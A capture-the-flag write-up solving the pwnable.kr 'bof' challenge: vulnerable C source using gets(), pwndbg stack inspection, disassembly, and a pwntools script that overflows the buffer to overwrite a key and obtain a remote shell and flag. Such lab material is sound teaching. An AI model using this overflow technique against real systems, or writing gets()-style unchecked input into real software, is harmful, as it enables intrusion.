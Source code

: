 # bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : `nc pwnable.kr 9000`

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable `key` so that it equals `0xcafebabe` in order to get `/bin/sh` access.

`key` is a parameter in this function and it's set to `0xdeadbeef`, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```

# Solution Revisions

Upon dissembling bof and inspecting function `func`, we can more precisely pad our overflow.

```Disassembly
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave  
 689:	c3                   	ret   
```

A buffer of size 0x2c is created with the `lea    -0x2c(%ebp),%eax` instruction.

Adding another 8 bytes to overflow $ebp and saved $eip would give us the correct size of our buffer.


### Capturing the Flag

```
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
